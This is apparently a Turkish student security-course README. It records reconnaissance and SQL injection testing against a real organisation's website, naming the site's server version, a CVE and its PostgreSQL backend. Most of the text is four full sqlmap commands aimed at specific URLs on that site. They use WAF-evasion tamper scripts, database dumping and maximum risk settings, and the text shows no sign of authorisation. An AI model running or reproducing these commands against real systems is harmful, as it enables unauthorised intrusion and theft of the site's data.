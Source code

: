 # Bilgi Sistemleri ve Güvenliği

Testler Sqlmap, Nikto, Nmap üzerinden yapılmıştır.

# Nmap

https://www.shodan.io/
sitesinde yapılan taramada orta seviyeli olarak CVE-2014-4078 sonucu elde edildi ve ISS 8.5 kullanıyor kullanıldığı tespit edildi.

# Sqlmap

Sqlmapte yapılan testler sonucunda veritabanı olarak PostgreSQL kullanıldığı tespit edildi. Bunun yanı sıra yapılan testler sonucunda belirli çıktılar elde edildi.
WAF ile korunduğu için bazı sql injectionlar denenemedi bunlar txtler içinde gözükmektedir.

Bu test aşamasında yazılan kodlar:

1-) python sqlmap.py -u "https://www.mustso.org.tr/Bas%C4%B1ndaBiz/Haber/tabid/17222/articleType/ArticleView/articleId/41518/Hayirli-Ramazanlar.aspx" --data="*"  --tamper="space2comment" --dbs --dump --batch

2-) python sqlmap.py -u "https://www.mustso.org.tr/Bas%C4%B1ndaBiz/Haber/tabid/17222/articleType/ArticleView/articleId/41518/Hayirli-Ramazanlar.aspx" --data="*"  --tamper="space2comment" --dbs --level 5 --risk 3 --dump --batch

3-)python sqlmap.py -u "https://www.mustso.org.tr/Default.aspx" --dbs --forms --crawl=2 --tamper=space2comment --random-agent
Bu işlemde veritabanının PostgreSQL olduğu tespit edilmiştir!


4-) python sqlmap.py -u "https://www.mustso.org.tr/Default.aspx" --dbs --forms --crawl=2 --dbms=postgresql --tamper=space2comment --random-agent --time-sec=10 --level=5 --risk=3
Bu test yüksek fazda olmuştur ve 11 saate yakın bir süreçte tamamlanmıştır.
